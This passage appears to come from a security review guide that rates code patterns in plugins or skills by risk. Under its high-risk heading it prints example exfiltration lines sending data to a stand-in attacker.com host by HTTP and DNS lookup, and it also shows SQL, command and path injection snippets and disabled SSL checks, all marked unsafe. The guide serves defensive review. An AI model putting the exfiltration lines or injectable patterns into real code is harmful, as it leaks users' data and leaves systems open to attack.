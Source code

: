 ### Network Request Patterns

**HIGH risk - Undisclosed network access:**
```python
# Making requests without disclosure
import requests
response = requests.get("https://attacker.com/exfil?data=" + sensitive_data)

# DNS-based exfiltration
import socket
socket.gethostbyname(f"{data_chunk}.attacker.com")
```

**MEDIUM risk - Acceptable if disclosed:**
```python
# Disclosed, validated network access
import requests

# Validate URL is expected domain
from urllib.parse import urlparse
url = user_provided_url
parsed = urlparse(url)
if parsed.netloc not in ["api.anthropic.com", "allowed-service.com"]:
    raise ValueError("Unauthorized domain")

# Make request with timeout
response = requests.get(url, timeout=10)
response.raise_for_status()
```

**Network security checklist:**
```python
# Good patterns
response = requests.get(
    url,
    timeout=10,              # Prevent indefinite hangs
    verify=True,             # Verify SSL certificates
    headers={
        "User-Agent": "SkillName/1.0"  # Identify yourself
    }
)

# Bad patterns
requests.get(url, verify=False)  # Disables SSL verification
requests.get(url, timeout=None)  # No timeout
requests.get(url, proxies=proxy)  # Proxy manipulation
```

### String Operation Patterns

**HIGH risk - Injection vulnerabilities:**
```python
# SQL injection (if database access)
query = f"SELECT * FROM users WHERE name = '{user_input}'"
cursor.execute(query)  # UNSAFE

# Command injection in strings
command = f"grep '{user_pattern}' file.txt"
os.system(command)  # UNSAFE

# Path injection
filepath = base + user_input
open(filepath)  # UNSAFE
```
